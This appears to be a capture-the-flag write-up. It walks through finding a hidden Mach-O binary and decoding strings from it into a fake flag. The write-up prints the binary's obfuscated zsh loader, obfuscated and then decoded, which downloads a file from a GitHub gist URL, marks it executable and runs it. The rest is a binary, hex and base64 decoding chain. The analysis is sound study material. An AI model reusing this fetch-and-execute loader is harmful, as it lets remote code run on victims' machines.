





# Prompt


# Solution

- Unzip the files and do a ls -la, there is a hidden directory with a Mach-O binary called welcomeToThePark. Strings that binary for some Base64.






html
<string>/bin/zsh</string><string>-c</string><string>A0b='tmp="$(m';A0bERheZ='ktemp /tmp/XX';A0bERheZX='XXXXXX)"';A0bER='; curl --';A0bE='retry 5 -f ';A0bERh='"https://';A0bERheZXDRi='gist.githu';xbER='b.com/s';juuQ='tuartjas';juuQQ7l7X5='h/a7d18';juuQQ7l7X5yX='7c44f4327';juuQQ7l7X5y='739b752d037be45f01';juuQQ7='" -o "${tmp}"; i';juuQQ7l7='f [[ -s "${tmp}';juuQQ7l7X='" ]];';juQQ7l7X5y=' then chm';juQQ7l='od 777 "${tmp}"; ';zRO3OUtcXt='"${tmp}"';zRO3OUt='; fi; rm';zRO3OUtcXteB=' "${tmp}"';echo -e ${A0b}${A0bERheZ}${A0bERheZX}${A0bER}${A0bE}${A0bERh}${A0bERheZXDRi}${xbER}${juuQ}${juuQQ7l7X5}${juuQQ7l7X5yX}${juuQQ7l7X5y}${juuQQ7}${juuQQ7l7}${juuQQ7l7X}${juQQ7l7X5y}${juQQ7l}${zRO3OUtcXt}${zRO3OUt}${zRO3OUtcXteB} | /bin/zsh
```

```shell
/bin/zsh -c A0b='tmp="$(m';A0bERheZ='ktemp /tmp/XX';A0bERheZX='XXXXXX)"';A0bER='; curl --';A0bE='retry 5 -f ';A0bERh='"https://';A0bERheZXDRi='gist.githu';xbER='b.com/s';juuQ='tuartjas';juuQQ7l7X5='h/a7d18';juuQQ7l7X5yX='7c44f4327';juuQQ7l7X5y='739b752d037be45f01';juuQQ7='" -o "${tmp}"; i';juuQQ7l7='f [[ -s "${tmp}';juuQQ7l7X='" ]];';juQQ7l7X5y=' then chm';juQQ7l='od 777 "${tmp}"; ';zRO3OUtcXt='"${tmp}"';zRO3OUt='; fi; rm';zRO3OUtcXteB=' "${tmp}"';echo -e ${A0b}${A0bERheZ}${A0bERheZX}${A0bER}${A0bE}${A0bERh}${A0bERheZXDRi}${xbER}${juuQ}${juuQQ7l7X5}${juuQQ7l7X5yX}${juuQQ7l7X5y}${juuQQ7}${juuQQ7l7}${juuQQ7l7X}${juQQ7l7X5y}${juQQ7l}${zRO3OUtcXt}${zRO3OUt}${zRO3OUtcXteB} | /bin/zsh
```

```shell
tmp="$(mktemp /tmp/XXXXXXXX)"; curl --retry 5 -f "https://gist.github.com/stuartjash/a7d187c44f4327739b752d037be45f01" -o "${tmp}"; if [[ -s "${tmp}" ]]; then chmod 777 "${tmp}"; "${tmp}"; fi; echo “${tmp}”
```





- Someone else posted that binary, which is not the flag, but it decodes like this for fun:

```
00110101 01100001 00100000 00110110 01100100 00100000 00110111 00111000 00100000 00110110 00111000 00100000 00110101 01100001 00100000 00110011 00110011 00100000 00110111 00110011 00100000 00110111 00111000 00100000 00110110 00110100 00100000 00110100 00111000 00100000 00110100 01100101 00100000 00110110 00110110 00100000 00110110 00110011 00100000 00110111 01100001 00100000 00110100 01100101 00100000 00110110 01100011 00100000 00110110 00110010 00100000 00110101 00111000 00100000 00110100 01100101 00100000 00110110 00110110 00100000 00110110 00110010 00100000 00110100 00110100 00100000 00110100 00110110 00100000 00110111 00110010 00100000 00110101 01100001 00100000 00110101 00110110 00100000 00110011 00111001 00100000 00110110 01100011 00100000 00110100 01100101 00100000 00110100 00111000 00100000 00110100 01100101 00100000 00110011 00110101 00100000 00110110 00110110 00100000 00110101 00110001 00100000 00110011 01100100 00100000 00110011 01100100
```

```
5a 6d 78 68 5a 33 73 78 64 48 4e 66 63 7a 4e 6c 62 58 4e 66 62 44 46 72 5a 56 39 6c 4e 48 4e 35 66 51 3d 3d
```

```
ZmxhZ3sxdHNfczNlbXNfbDFrZV9lNHN5fQ==
```

- Fake Flag:

```
flag{1ts_s3ems_l1ke_e4sy}
```